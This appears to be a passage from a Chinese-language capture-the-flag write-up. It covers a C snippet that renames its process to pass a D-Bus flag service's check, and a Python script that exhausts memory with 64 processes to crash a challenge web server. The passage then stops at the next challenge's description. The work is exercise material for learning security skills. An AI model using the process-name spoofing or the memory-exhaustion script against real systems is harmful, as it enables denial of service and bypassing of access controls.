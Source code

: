 ```C
    prctl(PR_SET_NAME, "getflag3", 0, 0, 0);
    strncpy(argv[0], "getflag3", strlen(argv[0]));
    GDBusConnection *c = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, NULL);
    GVariant *r = g_dbus_connection_call_sync(c,
                                              DST,
                                              OBJ,
                                              INT,
                                              MTH,
                                              NULL,
                                              G_VARIANT_TYPE("(s)"),
                                              G_DBUS_CALL_FLAGS_NONE,
                                              -1,
                                              NULL,
                                              NULL);

    if (r) {
        gchar *f;
        g_variant_get(r, "(&s)", &f);
        g_print("%s", f);
        g_variant_unref(r);
    }
    g_object_unref(c);
    return 0;
}
```

## 动画分享

> 为了给同学分享动画片，小 T 启动了自己之前用超安全的 Rust 语言写的 Web server，允许你访问「当前目录」的文件，当然了，flag 可不在当前目录。不过因为快到饭点了，小 T 还没来得及复制视频文件到对应的目录，于是就只在自己最常使用的、**几年前编译的某~~祖传~~ 终端模拟器** 里面跑起了自己的 `fileserver`，然后就去锁屏吃饭了。
>
> 小 T：「诶，我不过就分享个文件，而且目录里面也没别的东西，所以没关系吧～而且我特地搞了个 chroot，就算我真写出了什么漏洞，你也休想看到我的 flag！」
>
> 请提交一个程序，题目环境会在模拟小 T 的环境运行之后，降权运行你的程序：
>
> * 如果你能让小 T 的 `fileserver` 无法正常响应请求（例如让 `fileserver` 退出），你可以获得第一小题的 flag。
> * 第二小题的 flag 在 `/flag2`，你需要想办法得到这个文件的内容。
>   环境限制总 PID 数为 64。

尝试占用内存得到第一小题的flag

```Python
#!/usr/bin/env python3
from multiprocessing import Process
def s():
    x = []
    while True: x.append(" " * 10**8)
for _ in range(64):
    Process(target=s).start()
```

## 关灯
> 3D 版本的关灯游戏。
> 
> 注：解决这道题不需要很多计算资源，一般的笔记本电脑都是可以完成任务的。最后一问传输数据量较大而且时限很短，为了避免网速的影响，使用了多阶段的题目下载与答案上传机制。
